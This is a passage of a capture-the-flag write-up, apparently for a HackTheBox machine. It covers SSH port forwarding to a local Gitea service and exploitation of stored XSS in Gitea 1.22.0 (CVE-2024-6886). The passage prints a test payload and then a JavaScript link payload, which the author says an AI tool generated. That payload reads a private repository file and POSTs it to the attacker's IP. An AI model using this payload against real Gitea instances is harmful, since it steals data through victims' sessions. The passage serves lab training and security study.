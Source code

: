 
```bash
└─$ ssh -L 3000:127.0.0.1:3000 axel@cat.htb
axel@cat.htb's password: 
```
{: .nolineno}
---

## 7️⃣ Vulnerability Identification

##### Gitea version 1.22.0 ▶️ CVE-2024-6886 :

- **What it is:** Gitea 1.22.0 is vulnerable to a Stored Cross-Site Scripting (XSS) vulnerability. This vulnerability allows an attacker to inject malicious scripts that get stored on the server and executed in the context of another user's session.

- **Why the target is vulnerable:**  This site have this version installed.

![](Pasted%20image%2020250716210818.png)
_Gitea version_

- **Links:**
    
    - [Exploit-db](https://www.exploit-db.com/exploits/52077)
	- [NVD-NIST](https://nvd.nist.gov/vuln/detail/CVE-2024-6886)        

---

## 8️⃣ Post-Exploitation Enumeration


For Exploitation of this vulnerability I will be using the same exploit-db path ways on the difference will be my payload 🔻


![](Pasted%20image%2020250716112044.png)
_Payload uploading on description option_

The <span style="color:rgb(255, 0, 0)">poc</span> exploit payload looks like this 🔻

```js
<a href=javascript:alert()>XSS test</a>
```
{: .nolineno}
Lets generate a payload to have to capture the reponse of the link that will be clicked by the server user or the admin.

![](Pasted%20image%2020250716214033.png)
_Kimi AI used for one-liner payload generation_

```js
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md').then(r=>r.text()).then(t=>fetch('http://10.10.16.15/',{method:'POST',body:t}));void(0);">XSS test</a>
```
{: .nolineno}
